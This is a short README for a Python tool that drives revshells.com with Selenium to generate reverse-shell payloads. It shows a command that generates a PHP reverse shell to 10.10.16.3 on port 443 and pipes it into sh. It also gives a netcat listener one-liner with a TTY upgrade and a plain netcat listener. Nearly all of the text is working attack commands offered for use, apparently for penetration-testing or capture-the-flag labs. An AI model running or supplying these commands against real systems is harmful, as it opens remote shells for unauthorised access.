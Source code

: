 # revshell.py
use selenium with python3 on revshells.com (or docker revshells) to generate shells.

![Peek 2021-10-08 19-51](https://user-images.githubusercontent.com/42157994/136601207-85432e27-c933-4d06-831a-77fbf5e3f603.gif)

revshell command:
```bash
rev_shell.py --ip 10.10.16.3 --port 443 -it 'PHP popen' -os linux -st zsh | sh
```


Listener used (optional):
```bash
stty raw -echo; (echo 'script -qc "/bin/bash" /dev/null';echo pty;echo;echo "stty$(stty -a | awk -F ';' '{print $2 $3}' | head -n 1)";echo export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp;export PATH=$PATH:/usr/bin:/bin:/usr/pkg/bin:/usr/local/bin; export TERM=xterm-256color; alias ll='ls -lsaht'; echo clear; echo id;cat) | nc -lvnp 443 && reset
```
Normal listener:
```bash
nc -lvnp 443
```


![image](https://user-images.githubusercontent.com/42157994/136600825-56bb5f2c-a366-450f-bc57-ee3560f49479.png)
